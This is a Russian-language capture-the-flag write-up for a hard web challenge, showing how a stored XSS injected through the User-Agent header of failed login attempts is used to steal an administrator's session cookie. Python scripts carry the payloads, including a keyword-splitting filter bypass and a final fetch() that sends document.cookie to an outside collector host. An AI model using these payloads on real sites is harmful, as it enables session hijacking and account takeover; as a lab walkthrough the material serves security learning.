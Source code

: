 **level**: **Hard**
**Description**: Воображение важнее, чем знания
**IP**: 62.173.140.174:16035

На сайте предлагают ввести логин и пароль для регистрации. Нам нужно получить доступ к аккаунту админа.

Изучим html код.
Находим какой-то скрытый функционал, который позже нам пригодится.
Видим личный кабинет  с "failed login attempts". Попробуем произвести попытку логина с неправильным паролем с другого браузера или с режимом инкогнито.

Попробуем зарегистрировать пользователя с логином:
<script>alert(1)</script>

Также попробуем зайти вне с неправильным паролем. Обнаруживаем, что XSS-уязвимость есть, что поможет захватить аккаунт. Если мы сумеем послать наш пейлоад, то мы сможем запустить на нем javascript code.
Конечно, изменить имя admin на пейлоад нельзя, но не будем забывать что есть еще другие поля, которые тоже скорее всего подвержены XSS-атаке.
На поле User-Agent мы можем повлиять, в отличие от полей id, username, IP, Date.

Для этого напишем скрипт на python, который мы будем использовать в дальнейшем.

-----

import requests

payload = "<script>alert(1);</script>" # это пейлоад

user = "asdf" #Тут наш username
headers = {'User-Agent': payload} # Вставляем его в хедер
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data) # Совершаем попытку логина с неверным паролем
 
print(response.status_code)# Выводим информацию
#print(response.text) 

-----

Мы смогли внедрить свой код.
Поизучав результаты по запросу "XSS steal cookie payloads", обнаруживаем, что нам нужно захватить ```document.cookie```

Попробуем использовать простой alert();

-----

import requests


payload = '<script>alert(document.cookie);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)

-----

Все сработало, кроме alert. Необходимо это как-то обойти.

Так как нам нужно в функции alert() вывести document.cookie, то попробуем сделать это иным способом, а именно с помощью переменных.

-----

python 
import requests

payload = '<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}

response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)

-----

То, что вывели в alert будем ловить на его сервер.

Перейдем во вкладку и скопируем url, чтобы перейти по ней в браузере. Нажимаем на Poll now, и получаем данные с сервера.

Нам предоставили доступ к request, теперь мы можем его детально рассмотреть.
Эта функция заменит нам ngrok или свой белый IP и сервер.
Копируем и вставляем в скрипт.

-----

import requests

payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{{СЮДА}}/?${vv}=` + document[vv]; fetch(payload);</script>'

user = "admin" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)

````

Отправляем и подставляем значение PHPSESSID в наш браузер. 
